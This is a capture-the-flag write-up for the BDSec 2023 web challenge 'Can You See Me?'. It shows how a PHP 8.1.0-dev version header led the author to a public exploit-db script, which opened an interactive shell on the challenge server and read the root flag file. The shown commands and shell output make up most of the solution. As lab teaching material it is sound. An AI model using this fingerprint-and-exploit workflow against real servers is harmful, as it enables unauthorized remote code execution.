 ```yaml
---
title: BDSec 2023 - Can You See Me?
date: Fri Jul 21 06:52:38 PM +04 2023
categories: [Writeup]
tags: [ctf,bdsec,bdsec2023,web]
---
```


## Description

Test Your eyes. By the way PHP is the best programming language :3

> [http://139.144.184.115:8989/](http://139.144.184.115:8989/)

Alternative Link:

> [http://170.187.204.136:8989/](http://170.187.204.136:8989/)

> Bruteforce / Fuzzings are not allowed.
{: .prompt-danger }

Flag Format: BDSEC{flag}

**Author: Saif**

## Solution

The webpage is a placeholder, there's absolutely nothing there. 

URL gives interesting headers:

```bash
➜ curl -I http://139.144.184.115:8989/
HTTP/1.1 200 OK
Host: 139.144.184.115:8989
Date: Fri, 21 Jul 2023 14:48:54 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8
```

Ready to be used exploit right out of the box <https://www.exploit-db.com/exploits/49933>

```bash
└─$ python3 exploit.py        
Enter the full host url:
http://139.144.184.115:8989/

Interactive shell is opened on http://139.144.184.115:8989/ 
Cant acces tty; job crontol turned off.
$ ls          
index.php

$ ls /home

$ ls /root
flag.txt

$ cat /root/flag.txt
BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}
```

> Flag: BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}
{: .prompt-tip }